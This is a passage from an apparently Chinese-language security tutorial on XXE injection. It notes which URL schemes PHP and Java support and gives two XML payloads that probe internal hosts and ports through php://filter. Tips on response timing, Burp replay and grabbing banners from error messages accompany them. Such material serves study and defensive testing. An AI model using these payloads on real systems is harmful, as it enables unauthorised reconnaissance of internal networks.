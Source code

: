 所以要想更进一步的利用我们不能将眼光局限于 file 协议，我们必须清楚地知道在何种平台，我们能用何种协议

**如图所示:**

![XML3](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/XML3.png)

PHP在安装扩展以后还能支持的协议：

![XXE8](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/XXE8.png)

**注意：**

1. 其中从2012年9月开始，Oracle JDK版本中删除了对gopher方案的支持，后来又支持的版本是 Oracle JDK 1.7update 7 和 Oracle JDK 1.6 update 35
2. libxml 是 PHP 的 xml 支持

### 实例三：内网主机探测

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE creds [  
<!ENTITY goodies SYSTEM "php://filter/convert.base64-encode/resource=http://内网IP"> ]>
<creds>&goodies;</creds>
```

**tips：根据响应的时间的长短判断ip是否存在，可以通过burp重放遍历端口**

### 实例四：内网主机端口探测

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE creds [  
<!ENTITY goodies SYSTEM "php://filter/convert.base64-encode/resource=http://内网IP:端口"> ]>
<creds>&goodies;</creds>
```

**tips：根据响应的时间的长短判断端口是否开放，可以通过burp重放遍历端口；如果有报错，可以直接探测出banner信息**

[原文地址](https://xz.aliyun.com/t/3357)
